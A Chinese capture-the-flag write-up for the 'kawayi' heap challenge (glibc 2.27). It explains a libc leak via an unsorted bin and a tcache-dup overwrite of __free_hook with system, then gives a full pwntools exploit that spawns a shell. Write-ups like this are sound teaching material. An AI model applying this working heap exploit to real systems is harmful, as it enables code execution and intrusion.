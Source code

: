 ```yaml
---
title: greatwall2024 初赛 - kawayi 
date: 2024/3/31 21:53:00
tags:
    - heap - tcache
    - libc2.27
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

标准菜单题  
允许申请0x430大的unsorted bin，有double free和uaf，考虑通过释放unsorted bin拿到libc，
然后打tcache dup写free_hook为system，再释放`b'/bin/sh\0'`的chunk就可以拿shell

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kawayi')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 8888) 
    libc = ELF('./libc.so.6') 

    def addn(idx:int, size:int, cont:bytes, hooked:bool=False): 
        sh.sendlineafter(b'exit', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())
        sh.sendafter(b'talk', cont)

    def edit(idx:int, cont:bytes):
        sh.sendlineafter(b'exit', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendafter(b'write', cont)

    def deln(idx:int):
        sh.sendlineafter(b'exit', b'2')
        sh.sendlineafter(b'index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'exit', b'4')
        sh.sendlineafter(b'index?\n\n', str(idx).encode())
        return sh.recvline()

    def eout():
        sh.sendlineafter(b'exit', b'5')

    addn(0, 0x410, b' ')
    addn(1, 0x20, b' ') # prevent chunk 0 being merged into top chunk
    deln(0)
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    # tcache dup
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    deln(1)
    edit(1, p64(freeHook) + p64(0))
    addn(2, 0x20, p64(system))
    addn(3, 0x20, p64(system))
    # get shell
    edit(1, b'/bin/sh\0')
    deln(1)

    sh.clean()
    sh.interactive()
```

> 最后一分钟交的flag，真是蓟县

